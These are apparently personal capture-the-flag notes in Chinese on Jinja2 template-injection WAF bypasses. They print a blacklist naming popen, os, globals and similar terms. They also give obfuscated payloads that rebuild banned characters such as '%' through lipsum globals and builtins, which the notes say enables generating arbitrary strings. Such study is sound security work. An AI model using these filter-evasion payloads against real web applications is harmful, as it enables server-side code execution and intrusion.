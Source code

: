 tags:: [[CTFWEB/SSTI/Jinja]]

- # waf
	- ```python
	  blacklist = [
	      # 普通ban符号
	      '_', '\\', '\'', '"', '[', ']', '~', "+",
	      # 一堆奇葩ban
	      '-', ':', '/', '*',
	      # 正常keyword ban
	      'request', 'class', 'init', 'arg', 'config', 'app', 'self', 'chr',
	      'request', 'url', 'builtins', 'globals', 'base', 'pop', 'popen', 'subclasses',
	      'flashed', 'os', 'open', 'read', 'cd', 'cat',  'getitem', 
	      # ???
	      'count', 'not', 'index','length', 'ord', 'import',
	      # ????
	      '124', '47', '59', '99', '100', '37', '94', '96', '0', '38',
	  ]
	  
	  ```
	- 可以看到filter还是可以用的
- # 针对两位数字的waf
	- 原版本中针对数字生成的规则还是太少，焚靖生成的数字表达式要么太长，要么无法绕过
	- 这里可以用`(8,8,8,8,8)|sum`的形式计算出需要的数字，成功绕过
- # 针对字符`%`的waf
	- 需要在使用时手动加入变量
		- ```python
		  full_payload_gen.add_context_variable("{%set unn=(lipsum|escape|batch(22)|list|first|last)%}{%set ppp=(((lipsum|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),(dict|trim|list|batch(3)|first|last),({}|select()|trim|list|batch(9)|first|last),({}|select()|trim|list|batch(13)|first|last),(dict|trim|list|batch(4)|first|last),(dict|trim|list|batch(3)|first|last),(dict|trim|list|batch(5)|first|last),unn,unn)|join)))|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),({}|select()|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(12)|first|last),({}|select()|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(24)|first|last),unn,unn)|join)))(((unn,unn,({}|select()|trim|list|batch(13)|first|last),(lipsum|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),({}|select()|trim|list|batch(4)|first|last),(dict|trim|list|batch(5)|first|last),unn,unn)|join))|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),({}|select()|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(12)|first|last),({}|select()|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(24)|first|last),unn,unn)|join)))((((dict|trim|list|batch(2)|first|last),(dict(h=x)|join),({}|select()|trim|list|batch(6)|first|last))|join))((31,6)|sum)%}{%set pppc=()%}", {
		      "ppp": "%"
		  })
		  ```
	- ~~现阶段还没有可以绕过的方法~~请看VCR：
		- ```jinja2
		  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((9,9,9,1,9)|sum))%}
		  ```
	- 有了`%`就有`%c`，就可以生成任意字符串了，剩下的就不用多说了
- # 针对任意字符生成的waf
	- `[`被封，可以使用`batch(INDEX)|first|last`的形式获得列表的第i个元素
- # 针对字符拼接的waf
	- 可以使用`(unn,unn)|join`的形式进行绕过
	- 还可以使用`|replace` filter将一个字符串拼接在另一个字符串的前面
-